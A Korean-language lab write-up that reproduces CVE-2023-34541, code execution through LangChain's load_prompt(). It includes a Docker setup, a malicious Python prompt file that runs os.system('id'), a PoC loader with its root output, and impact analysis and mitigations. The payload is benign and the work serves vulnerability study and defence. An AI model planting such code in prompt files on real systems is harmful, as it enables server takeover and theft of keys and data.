

# LangChain load_prompt 임의 코드 실행 취약점 (CVE-2023-34541)

**Contributors**

- [고나영(@gogooma125732)](https://github.com/gogooma125732)

<br/>

### Details

- LangChain은 LLM 애플리케이션에서 프롬프트, 체인, 에이전트 등을 구성할 때 사용하는 Python 프레임워크임.
- CVE-2023-34541은 LangChain 0.0.171의 `load_prompt()` 함수에서 발생하는 임의 코드 실행 취약점임.
- 취약한 버전에서 Python 형식의 prompt 파일을 로드하면, 프롬프트 템플릿만 읽는 것이 아니라 파일 내부의 Python 코드가 함께 실행될 수 있음.
- 공격자가 악성 prompt 파일을 전달하고 서비스가 이를 검증 없이 `load_prompt()`로 불러오면, 서버 권한으로 명령 실행이 가능함.

Affected Version: LangChain 0.0.171  
Risk Score: 9.8 / 10.0 (Critical, CVSS v3.1 기준)

참고자료:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-34541>
- <https://github.com/langchain-ai/langchain/issues/4849>

<br/>

### Risk Score

Risk Score는 9.8 / 10.0으로 평가함.

- 공격 벡터: Network
- 공격 복잡도: Low
- 권한 필요 여부: None
- 사용자 상호작용: None 또는 낮음
- 기밀성 영향: High
- 무결성 영향: High
- 가용성 영향: High

NVD에서도 CVE-2023-34541을 CVSS v3.1 기준 9.8(Critical)로 평가하고 있음. 신뢰할 수 없는 prompt 파일이 `load_prompt()` 경로에 들어갈 수 있다면, 공격자는 별도 인증 없이 낮은 복잡도로 서버 권한의 명령 실행을 유도할 수 있음.

실제 피해는 서비스 권한과 배포 구조에 따라 달라지지만, LLM 애플리케이션 서버에서는 다음과 같은 영향이 가능함.

- 서버 명령 실행
- API Key 및 환경변수 유출
- 내부 파일 접근
- LLM 서비스 설정 변조
- 개인정보 처리 시스템의 수집 데이터 접근
- 추가 악성 코드 실행

<br/>

### Setup

- Python 3.10 기반 Docker 컨테이너
- LangChain 0.0.171 설치
- `docker-compose.yml`을 통한 단일 컨테이너 실행
- `poc.py` 실행 시 `prompts/malicious_prompt.py`를 `load_prompt()`로 로드

다음 명령어로 LangChain 0.0.171 기반의 취약 환경을 실행함.

```bash
docker compose up --build
```

컨테이너가 실행되면 `poc.py`가 자동으로 실행되고, `load_prompt()`를 통해 `prompts/malicious_prompt.py`를 로드함.

종료 후에는 다음 명령어로 환경을 정리함.

```bash
docker compose down
```

<br/>

### Exploit

`prompts/malicious_prompt.py`는 정상적인 `PromptTemplate`처럼 보이지만, 파일 상단에 명령 실행 코드가 포함되어 있음.

```python
import os

os.system("id > /tmp/langchain_cve_2023_34541_result")
os.system("echo CVE-2023-34541_REPRODUCED >> /tmp/langchain_cve_2023_34541_result")
```

`poc.py`는 LangChain의 `load_prompt()` 함수로 해당 prompt 파일을 로드함.

```python
from pathlib import Path
from langchain.prompts import load_prompt

RESULT_PATH = Path("/tmp/langchain_cve_2023_34541_result")

print("[*] Loading malicious prompt file with langchain.prompts.load_prompt()")
load_prompt("prompts/malicious_prompt.py")

print("[*] Checking command execution result")

if RESULT_PATH.exists():
    print("[+] CVE-2023-34541 reproduced successfully")
    print(RESULT_PATH.read_text())
else:
    print("[-] Exploit failed: result file was not created")
```

취약한 LangChain 버전에서는 prompt 파일을 로드하는 과정에서 `os.system()`이 실행되고, `/tmp/langchain_cve_2023_34541_result` 파일이 생성됨.

<br/>

##### 취약 조건

- LangChain 0.0.171 사용
- `langchain.prompts.load_prompt()` 사용
- Python 형식의 prompt 파일 로드
- prompt 파일의 출처나 내용을 신뢰할 수 없는 상황

<br/>

### Verification

이 취약점은 웹 페이지에서 버튼을 누르거나 브라우저 화면으로 확인하는 유형이 아니라, 애플리케이션 코드가 `load_prompt()`로 Python prompt 파일을 로드할 때 발생하는 취약점임.

따라서 본 실험에서는 Docker 컨테이너 내부에서 다음 두 가지를 확인하여 취약점 재현 여부를 판단함.

- `load_prompt("prompts/malicious_prompt.py")` 호출 시 에러 없이 prompt 파일이 로드되는지
- prompt 파일 내부 명령이 실행되어 `/tmp/langchain_cve_2023_34541_result` 파일이 생성되는지

실제 서비스 환경에서 검증하려면 다음 조건을 확인해야 함.

- 서비스가 LangChain 0.0.171을 사용 중인지 확인
- 코드에서 `load_prompt()`를 사용하는 위치 확인
- 로드되는 prompt 파일의 출처가 외부 입력, 업로드 파일, 공유 repository, 사용자 설정값에 의해 바뀔 수 있는지 확인
- 운영 환경이 아닌 테스트/스테이징 환경에서 안전한 명령으로만 재현 확인

즉, Docker 실행 결과만으로도 CVE의 핵심 동작인 "prompt 파일 로드 과정에서 코드가 실행됨"은 충분히 증명할 수 있음. 다만 실제 서비스 영향도는 해당 서비스가 외부 prompt 파일을 받아 `load_prompt()`로 로드하는 구조인지에 따라 달라짐.

정상적으로 재현되면 다음과 같이 컨테이너 내부에서 `id` 명령이 실행된 결과가 출력됨.

```text
[*] Loading malicious prompt file with langchain.prompts.load_prompt()
[*] Checking command execution result
[+] CVE-2023-34541 reproduced successfully
uid=0(root) gid=0(root) groups=0(root)
CVE-2023-34541_REPRODUCED
```



<br/>

### Summary

- 이 취약점의 본질은 prompt 파일이 단순 설정 파일이 아니라 코드 실행 경로가 될 수 있다는 점임.
- LLM 애플리케이션에서 외부 prompt template이나 chain 파일을 검증 없이 가져와 사용하는 경우 prompt supply chain 공격으로 이어질 수 있음.
- 서버 권한으로 명령 실행이 가능하므로 API Key, 환경변수, DB 접속 정보, 내부 파일 등이 노출될 수 있음.
- Risk Score는 9.8 / 10.0으로 평가함. 인증 없이 낮은 복잡도로 서버 명령 실행이 가능하고, 기밀성·무결성·가용성 영향이 모두 높기 때문임.

<br/>

### Mitigation

- LangChain을 취약 버전 이후의 안전한 버전으로 업데이트함.
- 신뢰할 수 없는 Python prompt 파일을 `load_prompt()`로 로드하지 않음.
- 외부 prompt template은 YAML, JSON 등 실행 불가능한 데이터 형식으로 관리함.
- prompt 파일의 출처, 확장자, 내용, 해시를 검증함.
- LLM 애플리케이션 컨테이너는 root 권한이 아닌 최소 권한으로 실행함.
- API Key, DB 접속 정보 등 민감정보는 애플리케이션 실행 권한과 분리하여 관리함.

<br/>

### LLM Security Analysis

LLM 애플리케이션에서는 prompt template이나 chain 설정 파일을 단순한 텍스트 설정처럼 다루는 경우가 많음. 그러나 이 취약점은 prompt 파일이 실제로는 코드 실행 경로가 될 수 있음을 보여줌.

특히 LangChain 기반 서비스에서 외부 prompt template, 공유 chain 파일, GitHub repository의 예제 파일, 사용자가 업로드한 prompt 파일을 검증 없이 로드하는 구조라면 prompt supply chain 공격으로 이어질 수 있음.

개인정보 불법유통 대응 모니터링 시스템에 LangChain이 사용된다고 가정하면, 공격자는 악성 prompt 파일을 통해 다음 행위를 시도할 수 있음.

- 신고 데이터 또는 수집 URL 목록 접근
- 내부 API Key 탈취
- 데이터베이스 접속 정보 유출
- 모니터링 결과 조작
- 분석 서버 내 명령 실행

따라서 LLM 애플리케이션에서는 prompt도 신뢰할 수 있는 정적 문자열로 가정해서는 안 되며, 외부에서 유입되는 prompt 파일은 코드와 같은 수준으로 검증해야 함.
